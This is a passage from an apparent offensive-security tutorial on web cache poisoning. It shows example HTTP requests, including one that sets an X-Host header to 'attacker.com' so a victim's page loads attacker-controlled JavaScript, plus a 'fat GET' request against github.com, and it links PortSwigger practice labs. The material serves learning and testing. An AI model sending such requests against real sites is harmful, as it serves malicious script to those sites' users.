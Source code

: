 ```html
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

### Exploiting with limited `Vary`header

If you found that the **`X-Host`** header is being used as **domain name to load a JS resource** but the **`Vary`** header in the response is indicating **`User-Agent`**. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:

```html
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

### Fat Get

Send a GET request with the request in the URL and in the body. If the web server uses the one from the body but the cache server caches the one from the URL, anyone accessing that URL will actually use the parameter from the body. Like the vuln James Kettle found at the Github website:

```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```

There it a portswigger lab about this: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)

### Parameter Cloacking

For example it's possible to separate **parameters** in ruby servers using the char **`;`** instead of **`&`**. This could be used to put unkeyed parameters values inside keyed ones and abuse them.

Portswigger lab: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)

### Exploiting HTTP Cache Poisoning by abusing HTTP Request Smuggling

Learn here about how to perform [Cache Poisoning attacks by abusing HTTP Request Smuggling](../http-request-smuggling/index.html#using-http-request-smuggling-to-perform-web-cache-poisoning).

### Automated testing for Web Cache Poisoning
